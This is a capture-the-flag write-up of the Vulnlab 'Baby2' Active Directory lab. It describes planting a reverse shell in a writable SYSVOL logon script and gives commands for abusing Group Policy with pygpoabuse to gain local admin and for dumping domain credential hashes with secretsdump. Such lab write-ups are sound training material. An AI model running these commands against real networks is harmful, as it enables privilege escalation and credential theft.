# Baby2 -- Vulnlab (write-up)

**Difficulty:** Medium
**Box:** Baby2 (Vulnlab)
**Author:** dkrxhn
**Date:** 2025-10-22

---

## TL;DR

### AD box. Enumerated users and found a writable logon script in SYSVOL. Edited login.vbs for a shell as carl, then abused GPO permissions with pygpoabuse to add user to local admins. Secretsdump for domain admin.
---
## Target info

- Host: `10.10.92.192`
- Domain: `baby2.vl`
---
## Enumeration





















---
## Initial foothold

Found `login.vbs.lnk` pointing to `logon.vbs` in the SYSVOL share. With carl's access, confirmed the file was writable. Downloaded `login.vbs`, added a reverse shell, then re-uploaded with `put`.







---
## Privesc





Found the Default Domain Policy GPO ID in SYSVOL:

```
\\BABY2.VL\SYSVOL\BABY2.VL\POLICIES\{31B2F340-016D-11D2-945F-00C04FB984F9}
```

Used pygpoabuse to add `gpoadm` to local administrators:

```bash
pygpoabuse.py 'baby2.vl/gpoadm:Password123!' -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9 -f -dc-ip 10.10.92.192 -command 'net localgroup administrators /add gpoadm'
```



Then used secretsdump:

```bash
secretsdump.py baby2.vl/gpoadm:Password123!@10.10.92.192
```





Followed this walkthrough for reference: <https://medium.com/@persecure/baby2-vulnlab-33fa8a52d245>

---
## Lessons & takeaways

- Writable logon scripts in SYSVOL are a common AD foothold
- GPO abuse (pygpoabuse) can escalate privileges when a user has write access to a GPO
- Always check SYSVOL for scripts and policies that may be editable
---
